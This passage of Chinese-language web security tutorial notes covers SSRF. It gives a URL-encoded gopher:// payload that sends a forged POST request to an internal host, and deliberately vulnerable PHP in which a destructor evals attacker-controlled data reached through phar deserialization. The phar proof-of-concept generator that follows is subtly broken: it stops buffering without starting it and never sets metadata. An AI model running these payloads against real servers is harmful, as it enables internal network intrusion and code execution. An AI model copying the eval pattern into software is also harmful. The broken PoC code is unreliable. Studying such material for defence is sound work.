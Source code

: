 

```http
gopher://192.168.200.76:80/_%50%4f%53%54%20%2f%74%65%73%74%31%2e%70%68%70%20%48%54%54%50%20%2f%31%2e%31%250d%250a%48%6f%73%74%3a%20%31%32%37%2e%30%2e%30%2e%31%250d%250a%43%6f%6e%74%65%6e%74%2d%54%79%70%65%3a%20%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%2d%77%77%77%2d%66%6f%72%6d%2d%75%72%6c%65%6e%63%6f%64%65%64%250d%250a%43%6f%6e%74%65%6e%74%2d%4c%65%6e%67%74%68%3a%20%38%250d%250a%250d%250a%64%61%74%61%3d%31%32%33
```
![image.png](./SSRF.assets/2023_05_19_10_39_43_1E72cCIK.png)

#### PHAR 协议
PHAR协议用于在PHP中解析phar文件，phar文件的meta-data字段存在反序列化漏洞，可以使用协议读取文件触发反序列化，漏洞代码：
```php
<?php 
	class AnyClass{ 
		function __destruct() { 
			var_dump($_this); 
			eval($this -> output); 
		} 
	} 
	file_get_contents($_GET["file"]);
```
生成phar文件poc
```php
<?php
class AnyClass{
    function __destruct()
    {
        echo $this -> output;
    }
}
@unlink("phar.phar");
$phar = new Phar('phar.phar');
$phar -> stopBuffering();
```
